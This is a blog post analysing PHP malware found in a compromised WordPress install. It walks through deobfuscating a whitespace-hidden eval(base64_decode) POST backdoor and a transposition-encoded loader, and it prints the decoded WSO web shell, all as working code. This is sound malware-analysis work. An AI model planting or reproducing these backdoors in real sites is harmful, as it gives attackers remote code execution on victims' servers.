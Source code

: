 ```yaml
---
layout: post
title: "Deobfuscating PHP Malware"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}
This week I was shown some PHP malware in the wild. A coworker was cleaning up a compromised Wordpress install. The web hosting provider had flagged a particular file as malware based on a file signature match. The cause of the infection was pretty clear (misconfigured webserver permissions allowing arbitrary file upload and execution!), so cleanup was strightforward. However, as we dug through the file hierarchy on the webserver, we found a number of additional PHP files that had _not_ been detected as malware, but were clearly malicious. I'm going to walk through the deobfuscation of these files.

<!--more-->
These files were found in various subdirectories inside `.git/objects`, which normally contain binary git blobs only. When was the last time you looked at the contents of that directory?

```
.inc.php
.view.php
diff.php
dump.php
inc.php
options.php
proxy.php
session.php
title.php
```

All the files have common names which wouldn't be out of place on any wordpress install. However, in this instance, the names stood out because the usual files in `.git/objects/*/` all have SHA names.

```
master$ ls .git/objects/16

9c10611acf14bef4a5430838a50a30fb967351
d7d7b0e2441d1dddff7dfbac4a944a2a213f28
inc.php
```

Let's look at the contents of one of these files. Here's what `inc.php` looked like when we opened it in an editor:

```php
<?php
```

OK, so just an empty PHP file. Nothing to see here, right? We were caught by this for a few minutes. Now let's try it with word wrap turned on:

```php
<?php                                                                                                                                                                                                                                                               $sF="PCT4BA6ODSE_";$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];if(isset($s22)){eval($s21($s22));}?>

```

Oh, now we've got something! The content was pushed to the right by 255 columns, hidden from casual observers.

Let's see if we can de-obfuscate this code. We'll start by reformatting:

```php
<?php
$sF="PCT4BA6ODSE_";
$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];
if(isset($s22)){eval($s21($s22));}
?>
```

And now we can evaluate each line:

```php
<?php

$sF="PCT4BA6ODSE_";

$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
# => $s21="base64_decode"

$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];
# => $s22=_POST['n318a65']

if(isset($s22)){eval($s21($s22));}
# => if(isset(_POST['n318a65'])){eval(base64_decode(_POST['n318a65']));}

?>
```

OK, so we have an arbitrary code executor. This code will base64-decode and then execute the contents of the `n318a65` parameter if found in POST data. Easy!

Let's look at a more interesting file. Here's `.view.php`

```php
<?php
$vF9UATQ = Array('1'=>'N', '0'=>'S', '3'=>'O', '2'=>'8', '5'=>'v', '4'=>'3', '7'=>'H', '6'=>'n', '9'=>'W', '8'=>'u', 'A'=>'C', 'C'=>'f', 'B'=>'9', 'E'=>'q', 'D'=>'g', 'G'=>'y', 'F'=>'Y', 'I'=>'0', 'H'=>'t', 'K'=>'F', 'J'=>'w', 'M'=>'Q', 'L'=>'b', 'O'=>'2', 'N'=>'d', 'Q'=>'k', 'P'=>'6', 'S'=>'T', 'R'=>'V', 'U'=>'p', 'T'=>'R', 'W'=>'x', 'V'=>'4', 'Y'=>'s', 'X'=>'5', 'Z'=>'X', 'a'=>'A', 'c'=>'G', 'b'=>'e', 'e'=>'j', 'd'=>'1', 'g'=>'L', 'f'=>'U', 'i'=>'B', 'h'=>'r', 'k'=>'c', 'j'=>'a', 'm'=>'P', 'l'=>'7', 'o'=>'h', 'n'=>'D', 'q'=>'m', 'p'=>'I', 's'=>'o', 'r'=>'Z', 'u'=>'i', 't'=>'M', 'w'=>'J', 'v'=>'l', 'y'=>'E', 'x'=>'z', 'z'=>'K');
function vOSF9PJ($vJ2NSLW, $vIW0M1X){$vYNF1RQ = ''; for($i=0; $i < strlen($vJ2NSLW); $i++){$vYNF1RQ .= isset($vIW0M1X[$vJ2NSLW[$i]]) ? $vIW0M1X[$vJ2NSLW[$i]] : $vJ2NSLW[$i];}
return base64_decode($vYNF1RQ);}
$v4CK4VY = 'wcKdNcoCkcKxkGaBpApxrqRvrnFJtnToFqTutOFXFSDG3nKQ3SaxFqfxteFGtGplADsQFOBYL4pDm0aupOTq10plAuTQr9'.
'roN9WIZOKeNcv5LuaBpANcj9WvkIdoLuklAuTQr9roN9WIZ4RxrRBojqKV'.
'pnIDN7wdrSYzwcTvrqKdL7TCFOook61vNAaBpANZj9XQL4NxgSyG1Sy63Js'.
'zMcv8jRBxrZMswORGkqBGZOW5rGkYSvRtSAQlAQiULqvCkORIzANYLONCrZwGL4wxwGJJzSYzMcv8jRBxrZMswOdobKB'.
'vbcReNZTULOXCNcvHr0kYtAQlAQixrZTCNcvHrRBYj9dUNADJzSYzM71vNKBHF9NUFdBWN9BIrZ1Ck6R8NcvHr0DJz'.
'SYzMcTvrqv8r0D6Rd1mZdrKfv1wSIV6gAa6tuVdgey6zSYzAqvqzcNvNKBHF9NUFdBWN'.
'9BIrZ1Cr4iezAQUp7YzpAaDpcrdLq1Ij9B8pKNSS41IkqvJkOWokOovkGDQFZwGFZQUp7YzpAaDpA'.
'aDpAiGrZTdkqVDjZ1CFZwGFZQswcKGkqKXz0a/pcKGkqKXZOdokAD6Rd1mk'.
'4TGjZixLcKxjcRxwGJDwcKGkqKXz0aPp71IkqvJkOWokOovkGDQFZwGFZQU3JsDpAaDCMsDpAaDwKBMSd1fp'.
'nIDRd1mk4TGjZixLcKxjcRxzATCfyBSRAQlAuaDpAaQZI1mSIHwT0aBpKNSS41IkqvJkOWokOovkGDQZI1m'.
'SIHwT0QlA6IzAqrdLq1Ij9B8p7NxLIW5rOv8zAQDbJsDpAaDjcRorcRGzANpRKTMgxy8tAaItnMDSqBIpyr5N9XQwG'.
'QlAuaDpAiQj9fspeMJ1ApU3JUBADUqN9XeNcv5LuiZfIBxrZTeLOBhj9fswcYYpAT'.
'Oz0ilAuaDpAaQZI1mSIHwTRYQjdIDm0aQNeYzpAaDp71vNc15LOHU'.
'r0DQjGJDw7FU3JUBADUUruDor9dJN7QswcKdNcoCkcKxkGQUp7YzpAaDpcvqzcvxkORIzATC'.
'fyBSRKY6kcKxkGNNz0aqwuasL9MdzATCfyBSRKY6kcKxkGNNz0aBm0a'.
'QFZRIjKBJFZ1xz0QzpAaDpAaDpAiZfIBxrZTeLOBhj9fsL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0QYpAToNZTsZ4iok4tU3'.
'JszpAaDpcvqpADojZ1xrZMswKBnSIBg0fRLL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0'.
'vNz0i2CAaswKBnSIBg0fRLL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0vNpAyBpAToNZTsZ4iok4tUzMsDpAaDpAaDp7NxLI'.
'W5rOv8zAQlA6IzAqrdLq1Ij9B8pcKeNcv5LvwnzAQDbJsDpAaDj9FspfaQZdimfdTLw4aWwdIUp7YzpA'.
'aDpAaDpAaQF0aBpcKGkqKXzasDpAaDpAaDpAaDpAauN9XoL9fupnI+p7iskKBd'.
'LqKHr0DUgasDpAaDpAaDpAaDpAaukcoJZ4rvk61ULOVupnI+p7isk7rvk61ULOVsz0Jz'.
'pAaDpAaDpAaDpAaDp6NxLdBOrZwxj9B8puaBmuiZfIBCRQR0fIvmSuJzpAaDpAaDpAaD'.
'pAaDp61orqRHLOTvpuaBmuiaj9XUZONvNAD6kOKqrRBHLOTvwGQzpAaDpAaDpAaU3JsDpAaDpAaDpcRejc2DkORG'.
'j9KYjZUvzATozSYzpAaDp7IDr9Wxr0ilAuaDpAaDpAaDrZroLADQZdimfdTLw4aWwdIU3JsDpAaDCM'.
'UBAqvqzAivLZiIb0DQZdimfdTLwOy6Z0QDzMsDpAaDj9FsjZ1xrZMswcTvrqKdL7TCF91Ij9B8z0aqwuiqN9XeNcv5LvBvbcv'.
'xN7tswOKeNcv5LukDguaQrcRqFZRYNKBoF4TULOVUzMsDpAaDpAaDpATCfyBSRKY6F0NNpnIDwcTvrqKdL7TCF9'.
'1Ij9B83JsDpAaDr9WxrMsDpAaDpAaDpATCfyBSRKY6F0NNpnIDwd1vFIv8rq263JUUruDD'.
'p9RHk7TXzATCfyBSRKY6F0NNz0aqwuiqN9XeNcv5LvBvbcvxN7tswOKeNcv5LukDguaQZdimfdT'.
'LwOy6Z0QDzMsDpAaDFOKYLKBdkORGZOrdLqtswOKeNcv5LukDguaQZdimfdTLwOy6Z0QlAqRVjZMl';
eval(vOSF9PJ($v4CK4VY, $vF9UATQ));
?>
```

This file employs similar tactics to obfuscate the payload. I changed the variable names and indentation, and its actions become very clear:

```php
<?php

$char_transposition_map = Array('1'=>'N', '0'=>'S', '3'=>'O', '2'=>'8', '5'=>'v', '4'=>'3', '7'=>'H', '6'=>'n', '9'=>'W', '8'=>'u', 'A'=>'C', 'C'=>'f', 'B'=>'9', 'E'=>'q', 'D'=>'g', 'G'=>'y', 'F'=>'Y', 'I'=>'0', 'H'=>'t', 'K'=>'F', 'J'=>'w', 'M'=>'Q', 'L'=>'b', 'O'=>'2', 'N'=>'d', 'Q'=>'k', 'P'=>'6', 'S'=>'T', 'R'=>'V', 'U'=>'p', 'T'=>'R', 'W'=>'x', 'V'=>'4', 'Y'=>'s', 'X'=>'5', 'Z'=>'X', 'a'=>'A', 'c'=>'G', 'b'=>'e', 'e'=>'j', 'd'=>'1', 'g'=>'L', 'f'=>'U', 'i'=>'B', 'h'=>'r', 'k'=>'c', 'j'=>'a', 'm'=>'P', 'l'=>'7', 'o'=>'h', 'n'=>'D', 'q'=>'m', 'p'=>'I', 's'=>'o', 'r'=>'Z', 'u'=>'i', 't'=>'M', 'w'=>'J', 'v'=>'l', 'y'=>'E', 'x'=>'z', 'z'=>'K');

function transpose_and_base64_decode($source_text, $transposition_map) {
  $transposed_string = '';
  for($i=0; $i < strlen($source_text); $i++) {
    $transposed_string .= isset($transposition_map[$source_text[$i]]) ? $transposition_map[$source_text[$i]] : $source_text[$i];
  }
  return base64_decode($transposed_string);
}

$long_text = '<SNIP>';

eval(transpose_and_base64_decode($long_text, $char_transposition_map));

?>
```

OK, we're ready to see the payload! Changing the final `eval` to a `print` and executing the code gets us this gem:

```php
<?php
$auth_pass = "3feed6004abdb3f9a8281d903be32623";

$color = "#df5";
$default_action = 'FilesMan';
$default_use_ajax = true;
$default_charset = 'Windows-1251';

@ini_set('error_log',NULL);
@ini_set('log_errors',0);
@ini_set('max_execution_time',0);
@set_time_limit(0);
@set_magic_quotes_runtime(0);
@define('WSO_VERSION', '2.5.1');

if(get_magic_quotes_gpc()) {
    function WSOstripslashes($array) {
        return is_array($array) ? array_map('WSOstripslashes', $array) : stripslashes($array);
    }
    $_POST = WSOstripslashes($_POST);
    $_COOKIE = WSOstripslashes($_COOKIE);
}

function wsoLogin() {
    header('HTTP/1.0 404 Not Found');
    die("404");
}

function WSOsetcookie($k, $v) {
    $_COOKIE[$k] = $v;
    setcookie($k, $v);
}

if(!empty($auth_pass)) {
    if(isset($_POST['pass']) && (md5($_POST['pass']) == $auth_pass))
        WSOsetcookie(md5($_SERVER['HTTP_HOST']), $auth_pass);

    if (!isset($_COOKIE[md5($_SERVER['HTTP_HOST'])]) || ($_COOKIE[md5($_SERVER['HTTP_HOST'])] != $auth_pass))
        wsoLogin();
}

function actionRC() {
    if(!@$_POST['p1']) {
        $a = array(
            "uname" => php_uname(),
            "php_version" => phpversion(),
            "wso_version" => WSO_VERSION,
            "safemode" => @ini_get('safe_mode')
        );
        echo serialize($a);
    } else {
        eval($_POST['p1']);
    }
}
if( empty($_POST['a']) )
    if(isset($default_action) && function_exists('action' . $default_action))
        $_POST['a'] = $default_action;
    else
        $_POST['a'] = 'SecInfo';
if( !empty($_POST['a']) && function_exists('action' . $_POST['a']) )
    call_user_func('action' . $_POST['a']);
exit;
?>
```

And voila, a nice little web shell based on WSO.

